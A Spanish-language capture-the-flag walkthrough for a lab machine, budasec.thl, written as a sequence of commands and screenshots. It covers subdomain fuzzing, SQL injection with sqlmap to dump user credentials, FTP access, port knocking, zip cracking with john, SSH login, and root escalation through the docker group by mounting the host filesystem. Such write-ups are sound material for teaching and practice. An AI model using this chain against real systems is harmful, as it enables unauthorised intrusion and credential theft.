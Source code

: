 Hacemos el escaneo con nmap:
![[Pasted image 20240609180736.png]]
Visualizamos el contenido del puerto 80:
![[Pasted image 20240609180758.png]]
Visualizamos un robots.txt donde tenemos un dominio budasec.thl:
![[Pasted image 20240609181050.png]]
Añadimos este dominio al /etc/hosts y vemos un contador:
![[Pasted image 20240609181139.png]]
Vamos a hacer una búsqueda de subdominios con wfuzz, donde encontramos el subdominio dev:
```bash
wfuzz -c --hc=404 --hw=961 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -H "Host: FUZZ.budasec.thl" http://budasec.thl
```
![[Pasted image 20240609181406.png]]
Y lo añadimos al /etc/hosts:
![[Pasted image 20240609181433.png]]
Nos encontramos con lo siguiente, un panel de inicio de sesión:
![[Pasted image 20240609181456.png]]
Si ponemos una comilla, vemos que da un error, por lo que puede ser vulnerable a una SQLi:
![[Pasted image 20240609181525.png]]
Por lo que hacemos el siguiente ataque con sqlmap:
```bash
sqlmap --url http://dev.budasec.thl/ --dbs --batch --forms
sqlmap --url http://dev.budasec.thl/ -D buda --tables --batch --forms
sqlmap --url http://dev.budasec.thl/ -D buda -T users --columns --batch --forms
sqlmap --url http://dev.budasec.thl/ -D buda -T users -C username,password --dump --batch --forms
```
Y obtenemos las siguientes credenciales:
```bash
admin:admin123
ftpuserf:tpu@sr123p@@s!
user1:password1
user2:password2
```
![[Pasted image 20240609181802.png]]
Para entrar por FTP lo haremos con el siguiente usuario:
```bash
ftpuser:ftpu@sr123p@@s!
```
De todos modos, vemos que no podemos enumerar porque está activado el modo pasivo, es decir, nosotros nos conectamos, pero hace falta que el servidor FTP abra otro puerto aleatorio donde podamos recibir la respuesta:
![[Pasted image 20240609181949.png]]
Ejecutamos el siguiente comando para desactivar el modo pasivo:
```bash
passive off
```
Y ahora sí podemos listar el contenido del servidor:
![[Pasted image 20240609182043.png]]
Y dentro de ftp/documents, tenemos los siguientes archivos, los cuales los interesantes son estos:
![[Pasted image 20240609182147.png]]
Si vemos el contenido de knock, vemos 3 puertos:
![[Pasted image 20240609182219.png]]
Se podría pensar que estamos ante un port knocking, lo cual consiste en enviar una serie específica de intentos de conexión a una secuencia predefinida de puertos cerrados. Estos intentos de conexión actúan como una contraseña o código secreto. Si la secuencia es correcta, el firewall detecta estos intentos y abre el puerto o los puertos necesarios para permitir el acceso al servicio deseado; y para poder efectuar esto mismo, tenemos la siguiente herramienta:
```bash
https://github.com/eliemoutran/KnockIt
```
![[Pasted image 20240609182404.png]]
Y para lanzar este ataque, debemos de ir probando distintos órdenes en los puertos, y tras varias pruebas, la combinación correcta es 1739 9467 8745:
```bash
python3 knock.py -b 192.168.0.40 1739 9467 8745
```
![[Pasted image 20240609183151.png]]
Y ahora si volvemos a hacer un escaneo de puertos con nmap, vemos que el puerto 22 sí está abierto:
![[Pasted image 20240609183221.png]]
Ahora para autenticarnos, debemos de crackear el .zip obtenido anteriormente:
```bash
zip2john documents.zip > hash
john --wordlist=/usr/share/wordlists/rockyou.txt hash
```
Y obtenemos la contraseña manuelito:
![[Pasted image 20240609183559.png]]
Ahora vamos a extraer el contenido del documents.zip y leemos el audit2024 que hay en su interior, donde encontamos las credenciales del usuario yolanda:
```bash
yolanda:y@lAnd361!
```
![[Pasted image 20240609184449.png]]
Accedemos con estas credenciales por SSH y estamos dentro:
![[Pasted image 20240609184601.png]]
Vemos que el usuario yolanda se encuentra dentro del grupo docker:
![[Pasted image 20240609184659.png]]
Y tenemos las siguientes instrucciones en gtfobins para escalar privilegios:
![[Pasted image 20240609184738.png]]
Ejecutamos el siguiente comando:
```bash
docker run -v /:/mnt --rm -it alpine chroot /mnt sh
```
Y nos habremos convertido en root:
![[Pasted image 20240609184820.png]]
Pero vemos que estamos dentro del contenedor pero a su vez tenemos acceso a la máquina anfitrión:
![[Pasted image 20240609184854.png]]
Con esto, cambiamos el permiso a la bash y podremos escalar:
![[Pasted image 20240609185132.png]]
